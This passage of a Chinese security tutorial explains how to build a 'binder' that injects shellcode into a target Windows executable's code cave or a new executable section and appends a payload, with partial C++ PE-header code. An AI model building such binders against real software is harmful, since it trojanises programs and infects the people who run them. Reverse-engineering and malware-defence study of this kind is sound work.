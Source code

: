 这里我预留了一个占位符（0x69696969），对应原始的入口点，以方便binder程序修改。



**五、开发Binder程序**

Binder程序的任务相对简单些，只涉及一些文件I/O以及少量PE文件修改操作，具体为：

1、读取目标可执行文件。

2、读取载荷可执行文件。

3、将shellcode注入到合适的section中。

4、将载荷数据附加到新的section中。

5、生成结合后的可执行文件。

**5.1 提取shellcode**

编译完shellcode可执行文件后，该文件应该会对应一个空的导入表，并且所有的data section中都不包含任何数据。所需的所有数据都位于.text section中，所以提取这些字节并将其写入binder的源码中并不是件难事：

```
this-&gt;shellcode = std::vector&lt;BYTE&gt;`{` 0x50, 0x41, 0x59, 0x4C, ... `}`;
```

**5.2 绑定（Binding）过程**

文件I/O代码十分简单，我会跳过这些代码，直接讨论绑定这两个程序的具体过程。存放shellcode的具体位置由两种情况来决定：如果.text section的代码空间足够大，那么shellcode可以存放在这个位置，否则我们需要将其添加为一个新的section。由于这篇文章中我还没有演示如何追加一个新的section来存放数据，为了缩短文章篇幅，这里我只会演示如何使用.text section来完成这个任务。我会在源码中介绍另一种方法。

在添加新section头部之前，我们需要检查是否有足够的空间来存放头部数据。我们需要将第一个section的原始地址与最后一个section尾部的原始地址相减，看结果是否大于等于新section头部大小。如果空间不够，那么绑定该文件的方法就不会那么简单。PE中有些字段用于描述section中的数据，只要理解参数含义，处理好对齐问题，那么创建一个新的section并不难。创建新的section后，我们可以将新头部填入新section的头部空间中，同时也要更新File Header以及Optional Header的值。



```
// check code cave size in .text section
if (pishText-&gt;SizeOfRawData - pishText-&gt;Misc.VirtualSize &gt;= this-&gt;shellcode.size()) `{`
    // insert shellcode into .text section
`}` else `{`
// else create new executable section
// check space for new section header
// get last IMAGE_SECTION_HEADER
PIMAGE_SECTION_HEADER pishLast = (PIMAGE_SECTION_HEADER)(pishText + (pinh-&gt;FileHeader.NumberOfSections - 1));
PIMAGE_SECTION_HEADER pishNew = (PIMAGE_SECTION_HEADER)((DWORD)pishLast + IMAGE_SIZEOF_SECTION_HEADER);
if (pishText-&gt;PointerToRawData - (DWORD)pishNew &lt; IMAGE_SIZEOF_SECTION_HEADER)
return false;
// create new section header
IMAGE_SECTION_HEADER ishNew;
::ZeroMemory(&amp;ishNew, sizeof(ishNew));
::CopyMemory(ishNew.Name, ".aids", 5);
ishNew.Characteristics = IMAGE_SCN_CNT_CODE | IMAGE_SCN_MEM_EXECUTE | IMAGE_SCN_MEM_READ;
ishNew.SizeOfRawData = ALIGN(this-&gt;shellcode.size(), pinh-&gt;OptionalHeader.FileAlignment);
ishNew.VirtualAddress = ALIGN((pishLast-&gt;VirtualAddress + pishLast-&gt;Misc.VirtualSize), pinh-&gt;OptionalHeader.SectionAlignment);
ishNew.PointerToRawData = ALIGN((pishLast-&gt;PointerToRawData + pishLast-&gt;SizeOfRawData), pinh-&gt;OptionalHeader.FileAlignment);
ishNew.Misc.VirtualSize = this-&gt;shellcode.size();
// fix headers' values
pinh-&gt;FileHeader.NumberOfSections++;
pinh-&gt;OptionalHeader.SizeOfImage = ALIGN((pinh-&gt;OptionalHeader.SizeOfImage + ishNew.Misc.VirtualSize), pinh-&gt;OptionalHeader.SectionAlignment);
// manually calculate size of headers; unreliable
pinh-&gt;OptionalHeader.SizeOfHeaders = ALIGN((pinh-&gt;FileHeader.NumberOfSections * IMAGE_SIZEOF_SECTION_HEADER), pinh-&gt;OptionalHeader.FileAlignment);
// append new section header
```